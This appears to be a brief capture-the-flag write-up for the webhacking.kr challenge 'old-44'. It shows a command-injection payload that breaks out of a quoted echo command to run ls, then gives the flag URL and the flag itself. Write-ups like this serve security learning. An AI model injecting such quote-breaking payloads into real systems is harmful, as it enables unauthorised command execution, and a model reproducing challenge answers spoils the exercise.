 ```yaml
---
layout: default
title: old-44
---
```




here, you need to insert this payload: `'ls;'`

becuase the command that will be executed is this:
`echo 'hello! 'ls;''`
then, when you access it:
`http://webhacking.kr:10005/flag_29cbb98dafb4e471117fec409148e9386753569e`


**Flag:** ***`FLAG{y2u.be/sW3RT0tF020}`*** 

